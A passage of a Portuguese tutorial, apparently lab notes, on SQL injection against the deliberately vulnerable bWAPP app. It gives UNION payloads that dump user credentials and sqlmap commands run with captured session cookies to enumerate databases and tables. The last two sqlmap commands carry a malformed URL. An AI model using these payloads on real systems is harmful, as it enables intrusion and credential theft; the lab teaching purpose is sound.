   ```
  teste' UNION select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name='users'and table_schema=database() -- 
  ```

  com as colunas conseguimos mostrar os dados que nos interessa:

  ```
  teste' UNION select 1,login,password,email,secret,6,7 from users -- 
  ```

- Não é precisamos verificar as vulnerabilidades manualmente, podemos utilizar algumas ferramentas pra isso, usaremos o SQLMAP. Para isso, precisaremos utilizar o ZAP para coletar as informações de cookie.
- Baixar o OWASP ZAP na máquina do hacker
  - <https://www.zaproxy.org/download/>
- Instalar o OWASP ZAP (substituir o X pela versão baixada)

    ```bash
    sudo chmod +x ZAP_2_x_x_unix.sh
    sudo ./ZAP_2_x_x_unix.sh
    ```

- Ao Abrir o ZAP clica-se no ícone do firefox no menu superior, o firefox abrirá e todo site que for acessado por ele será analisado, bem como suas requests e responses aparecerão no zap na aba History na parte inferior. no firefox, nas duas laterais terão alguns alertas e infos a respeito de segurança web do site acessado.

- Para visualizar as informações que precisamos utilizando o ZAP, faz-se o login no bWAPP se já não tiver feito, acessar a mesma opção SQL injection (Search/GET), e daz a busca por qualquer filme. Ver-se pelo histórico do ZAP a request, desta request usaremos o cookie, mais precisamente os dados da sessão: PHPSESSID, security_level e o url da request usando, neste caso: "http://10.0.2.5/bWAPP/sqli_1.php?title=teste&action=search"

- Usando o SQLMAP

  ```
  sqlmap -u "http://10.0.2.5/bWAPP/sqli_1.php?title=teste&action=search" --proxy="http://127.0.0.1:8080" --cookie="PHPSESSID=alsjdbasjdnalsjfaabdjASBDJKABSD; security_level=0"
  ```

  O proxy é o configurado para o OWASP ZAP, sua porta pode ser alterada nas configurações deles. Com esse comando ,serão feitas algumas perguntas e o resultado deve ser qual tipo de banco e sua versão. Mas usando outros comandos específicos do SQLMAP é possível extrair muito mais informação.

    Descobrir o BD atual:

    ```bash
                sqlmap -u "http://10.0.2.5/bWAPP?sqli_1.php/title=teste&action=search" --proxy="http://127.0.0.1:8080" --cookie="PHPSESSID=alsjdbasjdnalsjfaabdjASBDJKABSD; security_level=0" --current-db
    ```

    Com nome do banco de dados! Agora, vamos ver se existem mais tabelas neste banco.

    ```bash
                sqlmap -u "http://10.0.2.5/bWAPP?sqli_1.php/title=teste&action=search" --proxy="http://127.0.0.1:8080" --cookie="PHPSESSID=alsjdbasjdnalsjfaabdjASBDJKABSD; security_level=0" --tables -D bwapp
    ```
